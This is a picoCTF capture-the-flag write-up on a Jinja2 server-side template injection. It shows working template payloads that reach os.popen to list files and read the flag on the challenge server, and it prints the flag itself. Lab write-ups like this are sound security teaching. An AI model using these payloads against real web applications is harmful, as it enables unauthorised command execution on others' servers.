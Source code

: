 # SSTI1 Writeup

## Challenge Description

I made a cool website where you can announce whatever you want! Try it out!  I heard templating is a cool and modular way to build web apps!  [Challenge Link](https://play.picoctf.org/practice/challenge/492)

## Vulnerability Explanation

The description hinted at user input being rendered using a server-side template engine, especially with the phrase "templating is a cool and modular way…". This suggested a potential Server-Side Template Injection (SSTI) vulnerability.

## Steps to Solve

1. **Initial Analysis**  
    I tested for SSTI by submitting the following as an announcement:  

    ```jinja
    {{7*7}}
    ```  

    The output displayed `49`, confirming that the template engine evaluates input and that the backend is likely using Jinja2, a popular Python templating engine.

2. **Exploiting the Vulnerability**  
    Jinja2’s template context exposes access to Python internals via special object paths. Using a known SSTI payload chain, I was able to execute system commands on the server.  

    First, I used the following payload to explore the directory structure:  

    ```jinja
    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }}
    ```  

    - `self._TemplateReference__context` exposes the template's context.  
    - `cycler.__init__.__globals__` provides access to the global Python namespace.  
    - From there, I imported `os` and used the `popen` method to execute shell commands.  

    This revealed a file named `flag` in the working directory.  

3. **Retrieving the Flag**  
    To read the contents of the `flag` file, I used the following payload:  

    ```jinja
    {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag').read() }}
    ```  

## Flag

The payload successfully revealed the flag:  

```plaintext
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_5c985a9a}
```
